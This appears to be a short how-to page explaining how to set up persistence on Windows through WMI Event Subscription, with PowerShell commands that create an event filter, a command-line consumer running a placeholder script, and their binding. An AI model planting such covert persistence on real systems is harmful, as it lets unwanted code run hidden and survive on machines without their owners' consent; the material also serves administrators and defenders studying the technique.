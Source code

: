 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

Windows Management Instrumentation (WMI) is a powerful feature in Windows that allows for system management and monitoring. WMI Event Subscription is a technique that can be used by administrators—and malicious actors—for persistence, allowing scripts or programs to execute automatically when specified system events occur.

### **STEP-BY-STEP TO ESTABLISH PERSISTENCE USING WMI EVENT SUBSCRIPTION**

1.  Identify the Trigger Event: Determine the system event that will trigger the execution of your script or program. An example is `__InstanceCreationEvent`, which occurs when a new instance of a WMI class is created.
    
2.  Create an event filter to specify the conditions under which the event is triggered. The filter uses WQL (WMI Query Language) to define these conditions.
    
    ```POWERSHELL
    New-CimInstance -Namespace root\subscription -ClassName __EventFilter -Property @{
        Name = 'MyEventFilter';
        EventNamespace = 'root\cimv2';
        QueryLanguage = 'WQL';
        Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'"
    }
    ```
    
3.  Define the action to be taken when the event filter conditions are met by creating an event consumer. In this example, a script is executed.
    
    ```POWERSHELL
    New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property @{
        Name = 'MyEventConsumer';
        CommandLineTemplate = "C:\\Path\\To\\Your\\Script.bat"
    }
    ```
    
4.  Link the event filter to the event consumer to ensure that the specified action is taken when the conditions are met.
    
    ```POWERSHELL
    New-CimInstance -Namespace root\subscription -ClassName __FilterToConsumerBinding -Property @{
        Filter = (Get-CimInstance -Namespace root\subscription -ClassName __EventFilter -Filter "Name = 'MyEventFilter'").__PATH;
        Consumer = (Get-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Filter "Name = 'MyEventConsumer'").__PATH
    }
    ```
    
5.  Test your setup by triggering the event. Start `notepad.exe` and check if the script runs as expected.